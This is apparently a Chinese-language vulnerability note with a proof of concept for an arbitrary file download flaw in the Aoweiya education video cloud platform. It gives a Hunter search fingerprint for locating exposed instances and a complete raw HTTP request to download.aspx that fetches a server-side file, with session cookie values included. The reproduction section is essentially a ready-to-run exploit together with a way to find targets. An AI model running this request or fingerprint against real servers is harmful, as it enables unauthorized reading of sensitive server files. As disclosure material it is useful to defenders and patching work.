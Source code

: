 # 一、漏洞简介
奥威亚教育视频云平台是<font style="color:rgb(62, 62, 62);">一种教育技术解决方案，致力于提供高质量的在线教育视频服务。该平台为教育机构和教师提供了一个全面的视频管理和交流平台。奥威亚教育视频云平台download存在任意文件下载漏洞，攻击者可通过该漏洞获取服务器敏感信息。</font>

# <font style="color:rgb(62, 62, 62);">二、影响版本</font>
+ 奥威亚教育视频云平台

# 三、资产测绘
+ hunter`web.body="/CSS/NewtonTheme/assets/app.css"`
+ 特征

![](images/1701926110892-0037e325-11cf-4a83-a756-d2f2617713e0.png)

# 四、漏洞复现
```java
GET /download.aspx?file=/Tools/AS/ASRoute.aspx HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=jzqnlz1foaenpxx5bjhvxp2m; PrivateKey=f09020eaf656f9cf5d9292d39c296d1c
Upgrade-Insecure-Requests: 1
```

![](images/1701926179266-8d22a7b1-2846-415f-a5b4-99b362d3e5a0.png)

